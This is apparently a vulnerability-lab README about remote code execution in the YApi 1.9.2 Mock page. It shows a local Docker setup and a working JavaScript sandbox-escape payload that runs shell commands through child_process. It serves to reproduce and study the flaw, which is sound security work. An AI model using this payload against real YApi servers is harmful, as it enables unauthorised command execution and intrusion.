

# YApi Registration and Mock Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

YApi is a API management tool developed by Node.JS. If registration of the YApi server is enabled, attackers will be able to execute arbitrary Javascript code in the Mock page.

References:

- <https://paper.seebug.org/1639/>
- <https://www.freebuf.com/vuls/279967.html>

## Vulnerability Environment

Execute following command to start a YApi server 1.9.2:

```
docker-compose up -d
```

After the server is started, browse the `http://localhost:3000` to see the index page of the YApi.

## Vulnerability Reproduce

Register a normal user then create a project and an interface:




There is a "Mock Tab" that you can input JavaScript code, put the evil code into textarea:

```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;uname -a;pwd").toString()
```


Then, go back to the preview tab and see the Mock URL:


Open that URL, Mock script is executed and you can see the output:


